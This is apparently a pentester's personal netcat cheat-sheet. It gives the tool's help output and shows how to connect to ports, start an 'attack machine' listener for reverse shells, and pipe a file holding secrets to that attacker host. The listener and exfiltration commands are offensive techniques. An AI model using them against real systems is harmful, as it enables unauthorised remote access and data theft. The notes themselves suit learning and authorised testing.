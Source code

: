 # netcat

There isn't much that netcat can't do. It allows different types of communication between devices, open shells on remove machines or something simple like get http from a server. I use it often to send and receive data between machines.

## Usage

Running `nc -h` provided the following output:

```bash
OpenBSD netcat (Debian patchlevel 1.206-1ubuntu1)
usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
	  [-m minttl] [-O length] [-P proxy_username] [-p source_port]
	  [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]
	  [-X proxy_protocol] [-x proxy_address[:port]] 	  [destination] [port]
	Command Summary:
		-4		Use IPv4
		-6		Use IPv6
		-b		Allow broadcast
		-C		Send CRLF as line-ending
		-D		Enable the debug socket option
		-d		Detach from stdin
		-F		Pass socket fd
		-h		This help text
		-I length	TCP receive buffer length
		-i interval	Delay interval for lines sent, ports scanned
		-k		Keep inbound sockets open for multiple connects
		-l		Listen mode, for inbound connects
		-M ttl		Outgoing TTL / Hop Limit
		-m minttl	Minimum incoming TTL / Hop Limit
		-N		Shutdown the network socket after EOF on stdin
		-n		Suppress name/port resolutions
		-O length	TCP send buffer length
		-P proxyuser	Username for proxy authentication
		-p port		Specify local port for remote connects
		-q secs		quit after EOF on stdin and delay of secs
		-r		Randomize remote ports
		-S		Enable the TCP MD5 signature option
		-s source	Local source address
		-T keyword	TOS value
		-t		Answer TELNET negotiation
		-U		Use UNIX domain socket
		-u		UDP mode
		-V rtable	Specify alternate routing table
		-v		Verbose
		-W recvlimit	Terminate after receiving a number of packets
		-w timeout	Timeout for connects and final net reads
		-X proto	Proxy protocol: "4", "5" (SOCKS) or "connect"
		-x addr[:port]	Specify proxy address and port
		-Z		DCCP mode
		-z		Zero-I/O mode [used for scanning]
	Port numbers can be individual or ranges: lo-hi [inclusive]
```

## Connecting

Now and then I'll use netcat to connect to a port on a machine. Usually this happens when I am trying to figure out what is running on the given port. As an example, I am going to connect to the machine at 10.10.1.1 on port 1337. The syntax is very simple:

`nc 10.10.1.1 1337`

From here you can start typing to see how the port handles the message. It varies based on what is listening on that port.

## Listening

This is by far the most common use I have for netcat. I will list on my attack machine so that I can get a reverse shell onto the machine I am attacking. Here is the syntax:

`nc -lvnp 4444`

Here is what the command is doing:

- The `-l` option tells netcat to listen.
- The `-v` option tells netcat to be in verbose mode.
- The `-n` option tells netcat to supress name/port resolutions.
- The `-p` option tells netcat what port to listen on. In this case 4444.

This will output something like the following:

`Listening on 0.0.0.0 4444`

When someone connects, the terminal reads something like the following:

`Connection received on 10.10.1.1 33032`

From here, I can generate a stable shell.

## Sending a File

Netcat has the ability to also send files between machines. I will show how to receive and send a file using netcat. The syntax is very easy. In this example I am sending the secrets.txt to my attack machine that has an ip address of 10.10.1.1.

### Receiver

I need to setup the receiver first. Here is the syntax:

`nc -lp 4444 -q 5 > output.txt < /dev/null`

Here is a explaination about the command:

- The `-l` option tells netcat to listen.
- The `-p` option tells netcat what port to listen on. In this case 4444.
- The `-q` option tells netcat to wait for 5 seconds after the EOF (end of file) is sent.
- The `> output.txt` will save the text from netcat into the output.txt file.
- The `< /dev/null` will send an EOF to the command since we don't want to provide any input from our side.

### Sender

The sending is even easier than the above command. Here is the syntax:

`cat output.txt | nc 10.10.1.1 4444`

Cat will grab the text in output.txt and send it to my attack machine on port 4444.
